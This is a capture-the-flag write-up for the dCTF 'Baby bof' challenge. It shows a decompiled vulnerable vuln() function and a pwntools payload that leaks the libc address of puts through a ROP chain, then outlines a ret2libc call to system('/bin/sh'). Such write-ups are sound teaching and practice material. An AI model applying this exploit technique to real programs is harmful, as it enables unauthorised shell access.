


# Baby bof

Bufferoverflow bug in the **vuln()** function

```c
int vuln()
{
  char s[10]; // [rsp+6h] [rbp-Ah] BYREF

  puts("plz don't rop me");
  fgets(s, 256, _bss_start);
  return puts("i don't think this will work");
}
```

No **win()** function here, and no **system()** here, but still we can call shell with **ret2libc**

First we need to leak the address of libc
```py
payload = b'A'*10
payload += p64(0xdeadbeef)
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.sym['puts'])
payload += p64(elf.entry)
p.sendline(payload)
```

That payload same as 
```c
puts(puts_GOT());
```

So program will print address of **puts** and back to **_start** 


Cool now we have libc leak, next step we need to calculate the base address of libc
U can find the offset in [Here](https://libc.blukat.me/)

After that u can make rop to call `libc.system("/bin/sh")`


[Full Sript](https://github.com/L29/Binary-Writeup/blob/main/dCTF/Baby_bof/exploit.py)


